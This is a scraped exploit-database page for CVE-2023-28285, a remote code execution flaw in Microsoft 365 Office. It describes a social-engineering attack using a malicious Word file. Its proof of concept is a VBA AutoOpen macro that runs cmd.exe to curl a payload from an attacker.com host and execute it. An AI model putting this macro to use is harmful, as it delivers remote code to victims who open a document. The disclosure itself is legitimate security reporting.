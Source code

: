 ```yaml
---
title: Microsoft 365 MSO (Version 2305 Build 16.0.16501.20074) 64-bit Remote Code Execution Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38821&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-27
fetch_date: 2025-10-04T11:45:15.949930
---
```


# Microsoft 365 MSO (Version 2305 Build 16.0.16501.20074) 64-bit Remote Code Execution Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Microsoft 365 MSO (Version 2305 Build 16.0.16501.20074) 64-bit Remote Code Execution Vulnerability CVE-2023-28285

2023-06-26 | CVSS 7.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38821
## Title: Microsoft 365 MSO (Version 2305 Build 16.0.16501.20074) 64-bit Remote Code Execution Vulnerability
## Author: nu11secur1ty
## Date: 04.17.2023
## Vendor: https://www.microsoft.com/
## Software: https://www.microsoft.com/en-us/microsoft-365/
## Reference: https://www.crowdstrike.com/cybersecurity-101/remote-code-execution-rce/
## CVE-2023-28285

## Description:
The attack itself is carried out locally by a user with authentication to the targeted system. An attacker could exploit the vulnerability by convincing a victim, through social engineering, to download and open a specially crafted file from a website which could lead to a local attack on the victim's computer. The attacker can trick the victim to open a malicious web page by using a malicious `Word` file for `Office-365 API`. After the user will open the file to read it, from the API of Office-365, without being asked what it wants to activate, etc, he will activate the code of the malicious server, which he will inject himself, from this malicious server. Emedietly after this click, the attacker can receive very sensitive information! For bank accounts, logs from some sniff attacks, tracking of all the traffic of the victim without stopping, and more malicious stuff, it depends on the scenario and etc.
STATUS: HIGH Vulnerability

[+]Exploit:
The exploit server must be BROADCASTING at the moment when the victim hit the button of the exploit!

[+]PoC:
```cmd
Sub AutoOpen()
    Call Shell("cmd.exe /S /c" & "curl -s http://attacker.com/CVE-2023-28285/PoC.debelui | debelui", vbNormalFocus)
End Sub
```

## FYI:
The PoC has a price and this report will be uploaded with a description and video of how you can reproduce it only.

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/tree/main/2023/CVE-2023-28285)

## Proof and Exploit
[href](https://www.nu11secur1ty.com/2023/04/cve-2023-28285-microsoft-office-remote.html)

## Time spend:
01:30:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)